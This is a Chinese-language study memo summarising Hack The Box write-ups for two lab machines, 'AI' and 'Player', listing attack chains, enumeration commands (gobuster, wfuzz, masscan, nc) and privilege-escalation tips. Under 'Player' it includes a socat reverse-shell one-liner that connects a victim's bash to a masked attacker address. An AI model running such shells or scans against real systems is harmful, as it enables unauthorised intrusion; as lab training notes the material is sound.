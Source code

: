 ```yaml
---
layout: post
title: 《0xrick's Write-ups for hack-the-box》学习备忘录
description: ""
keywords: ""
---
```


Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

### 一、AI

环境概述：Linux、Medium、30'、09 Nov 2019

渗透流程：Nmap -> Web Enumeration -> SQL injection –> Alexa’s Credentials –> SSH as Alexa –> User Flag -> JDWP –> Code Execution –> Root Shell –> Root Flag

知识点：

- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
- 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
- 文字转MP3：使用[ttsmp3](https://ttsmp3.com)，有中国女声，可读中文。
- MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
- Linux提权：使用`ps aux`查看root权限起的服务，使用`netstat -ntlp`查看敏感端口；在Github上使用关键词搜索exp。

思考：

- 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
- SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
- Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。

### 二、Player

环境概述：Linux、Hard、40'、06 Jul 2019

渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag

知识点：

- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
- 文件泄露：`.swp`, `.bak` and `~`。
- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。

思考：

- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
